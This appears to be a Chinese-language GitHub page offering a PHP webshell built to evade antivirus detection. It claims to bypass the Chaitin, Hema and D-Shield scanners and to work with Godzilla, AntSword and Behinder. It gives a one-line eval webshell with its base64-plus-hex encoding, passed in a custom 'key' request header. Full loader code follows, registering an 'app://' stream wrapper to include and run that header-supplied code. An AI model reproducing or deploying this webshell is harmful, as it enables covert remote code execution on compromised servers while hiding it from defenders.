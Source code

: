 ```yaml
---
title: php流包装免杀webshell
date: 2024-07-23 11:43:16
---
```


## webshell免杀（php）

理论支持通杀所有PHP版本。

支持哥斯拉、蚁剑、冰蝎。

绕过长亭百川云Webshell引擎、河马webshell查杀引擎、D盾查杀。

使用方法：

添加自定义头：key=xxx

其中xxx是上述马子的base64编码再hex编码。

例如：

<?php @eval($_POST['cmd']);?>

经base64编码以及hex编码后：

5044397761484167514756325957776f4a46395154314e555779646a6257516e58536b37507a343d

连接时添加自定义头：

key: 5044397761484167514756325957776f4a46395154314e555779646a6257516e58536b37507a343d

<?php  
​  
# base64->hex  
# 把需要连接的webshell进行base64编码再hex编码，然后连接时，自定义请求头加上key: xxx(编码后的webshell)  
      
$header = "key";  
​  
function app() {  
    include 'app://config.yaml';  
}  
​  
function hex2str($hex_str) {  
    if (strlen($hex_str) % 2 != 0) {  
        echo "error";  
        return false;  
    }  
    $str = '';  
    for ($i = 0; $i < strlen($hex_str); $i += 2) {  
        $str .= chr(hexdec($hex_str[$i] . $hex_str[$i+1]));  
    }  
    return $str;  
}  
​  
class Stream {  
    private $position;  
    private $code;  
​  
    public function stream_open($path, $mode, $options, &$opened_path) {  
        $url = parse_url($path);  
        $this->code = $GLOBALS[$url["host"]];  
        $this->position = 0;  
        return true;  
    }  
​  
    public function stream_read($count) {  
        $result = substr($this->code, $this->position, $count);  
        $this->position += strlen($result);  
        return $result;  
    }  
​  
    public function stream_eof() {  
        return $this->position >= strlen($this->code);  
    }  
​  
    public function stream_stat() {  
        return "";  
    }  
}  
​  
​  
stream_wrapper_register("app", "Stream") or die("error!");  
$stream = @base64_decode(hex2str($_SERVER["HTTP_".strtoupper($header)]));  
$GLOBALS['config.yaml'] = $stream;  
​  
@app();
